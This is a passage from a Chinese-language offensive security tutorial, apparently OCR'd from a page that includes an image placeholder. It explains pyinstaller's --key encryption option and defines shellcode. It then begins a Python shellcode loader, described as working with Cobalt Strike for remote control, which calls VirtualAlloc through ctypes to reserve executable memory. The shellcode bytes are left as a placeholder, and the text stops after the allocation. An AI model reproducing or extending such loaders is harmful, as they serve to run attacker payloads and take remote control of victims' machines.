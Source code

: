 
打开之后：  


![图形用户界面, 文本, 应用程序, 电子邮件 描述已自动生成](media/d862803559c8198cb526149f3af4e093.png)




**4. pyinstaller -F --key 参数反编译**

在使用pyinstaller的时候，可以使用--key参数对生成的exe进行加密，在使用这个参数的时候需要pycrypto库，可以通过pip的方式进行安装，但是保不齐安装的时候会出现一些问题，这里就不再对此展开讲解，直接进行使用。

**4.1 python版本的shellcode**

**什么是shellcode？**

在攻击中，shellcode是一段用于利用软件漏洞的有效负载，shellcode是16进制的机器码，以其经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。
可在寄存器eip溢出后，放入一段可让CPU执行的shellcode机器码，让电脑可以执行攻击者的任意指令。（来源：百度百科）  
​

下面的代码为最基础版本的shellcode，配合Cobalt Strike使用，可实现远控。

*\# -\*- encoding: utf-8 -\*-*

*\# Time : 2021/04/29 11:19:04*

*\# Author: crow*

**import** ctypes

shellcode **=** b""

shellcode **+=** b"\\x\\"

shellcode **=** bytearray**(**shellcode**)**

*\# 设置VirtualAlloc返回类型为ctypes.c_uint64*

ctypes**.**windll**.**kernel32**.**VirtualAlloc**.**restype **=**
ctypes**.**c_uint64

*\# 申请内存*

ptr **=**
ctypes**.**windll**.**kernel32**.**VirtualAlloc**(**ctypes**.**c_int**(0),**
ctypes**.**c_int**(**len**(**shellcode**)),** ctypes**.**c_int**(0x3000),**
ctypes**.**c_int**(0x40))**
